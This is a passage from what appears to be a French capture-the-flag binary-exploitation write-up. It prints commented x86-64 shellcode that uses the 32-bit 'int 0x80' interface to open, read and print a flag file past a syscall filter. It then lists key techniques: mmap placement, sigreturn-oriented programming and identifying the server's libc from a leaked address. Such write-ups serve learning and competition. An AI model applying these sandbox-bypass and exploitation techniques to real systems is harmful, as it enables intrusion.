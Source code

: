 ```python
# 6:  48 c7 c3 00 00 01 00    mov    rbx,0x10000
# d:  48 c7 c0 05 00 00 00    mov    rax,0x5
# 14: cd 80                   int    0x80
#
# ; sys_read(fd, buffer_addr, 60)
# 16: 48 89 c7                mov    rdi,rax
# 19: 48 31 c0                xor    rax,rax
# 1c: 48 c7 c6 00 00 01 00    mov    rsi,0x10000
# 23: 48 c7 c2 3c 00 00 00    mov    rdx,0x3c
# 2a: 0f 05                   syscall
#
# ; sys_write(stdin, buffer_addr, 60)
# 2c: 48 c7 c0 01 00 00 00    mov    rax,0x1
# 33: 48 c7 c7 01 00 00 00    mov    rdi,0x1
# 3a: 48 c7 c6 00 00 01 00    mov    rsi,0x10000
# 41: 48 c7 c2 3c 00 00 00    mov    rdx,0x3c
# 48: 0f 05                   syscall
#
# ; loop back through the program
# 4a: c3                      ret
# -----------------------

# xor rcx,rcx
# xor rdx,rdx
# mov rbx, 0x10000
# mov rax, 5
# int 0x80

# mov rdi, rax
# xor rax, rax
# mov rsi, 0x10000
# mov rdx, 60
# syscall

# mov rax, 1
# mov rdi, 1
# mov rsi, 0x10000
# mov rdx, 60
# syscall

# ret
```

### Points clés

- sys_mmap permet d'allouer de la mémoire avec les permissions que nous souhaitons. De plus, il est possible d'indiquer à quelle adresse allouer la mémoire. Cela a permis d'avoir une adresse sur 4 octets maximum et d'y stocker le chemin d'accès au fichier "flag.txt" qui sera indiqué au syscall read
- sys_rt_sigreturn est très utile dans le pwn car il permet d'indiquer les valeurs de tous les registres depuis la stack et de les charger dans les registres respectifs, y compris rip. Voir https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing/srop-sigreturn-oriented-programming
- Depuis un programme x64, il est possible d'appeler des syscall x32 via l'interruption 0x80 (`int 0x80`). Cela nous a permis d'utiliser un numéro de syscall autorisé et d'appeler `sys_open` qui n'était normalement pas autorisé
- Il est possible de retrouver la libc utilisée sur le serveur si nous possédons l'adresse d'un symbole. Pour cela, nous pouvons utiliser https://libc.rip/ ou https://github.com/niklasb/libc-database
